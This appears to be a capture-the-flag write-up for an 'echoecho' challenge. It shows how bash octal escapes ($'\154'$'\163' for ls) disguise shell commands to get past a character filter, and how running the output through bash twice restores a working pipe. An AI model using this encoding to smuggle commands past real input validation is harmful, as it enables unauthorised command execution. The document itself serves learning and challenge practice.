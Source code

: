 # echoechoechoecho and why I failed.

```bash
$'\154'$'\163' -> ls

$ echo "$'\154'$'\163'" | xxd
00000000: 2427 5c31 3534 2724 275c 3136 3327 0a    $'\154'$'\163'.

$ echo "$'\154'$'\163'" | bash
almost_writeup.md  echoecho_final.py  echoecho.py  echosvr.py
```

After I've managed to construct payload that evaluates to `$'\154'$'\163' ` (`ls`) and I actually got the `ls` output from remote I've started construction of final payload. The command that I thought would give me the flag (and later turned out that the command was actually correct):

`bash -c 'expr $(grep + tmp/a)'|/get_flag>tmp/a;cat tmp/a` 

But something else was incorrect...

(lets simplify `bash -c 'expr $(grep + tmp/a)'|/get_flag>tmp/a;cat tmp/a`  to `ls | wc` just to make listing short)

```bash
'\154'$'\163' $'\174' $'\164'$'\162' -> ls | wc

$ echo "$'\154'$'\163' $'\174' $'\167'$'\143'" | xxd
00000000: 2427 5c31 3534 2724 275c 3136 3327 2024  $'\154'$'\163' $
00000010: 275c 3137 3427 2024 275c 3136 3727 2427  '\174' $'\167'$'
00000020: 5c31 3433 270a                           \143'.

$ echo "$'\154'$'\163' $'\174' $'\167'$'\143'" | bash
ls: cannot access '|': No such file or directory
ls: cannot access 'wc': No such file or directory
```

So piping in octal form does not work for `|` but it works for other ascii characters. Unfortunately, I've made an assumption that it works for all ascii chars, including `|`, this bad assumption cost me the flag.

What should I do then to get flag?

```bash
$ echo echo "$'\154'$'\163' $'\174' $'\167'$'\143'" | bash | bash
      4       4      59
```

Damn it.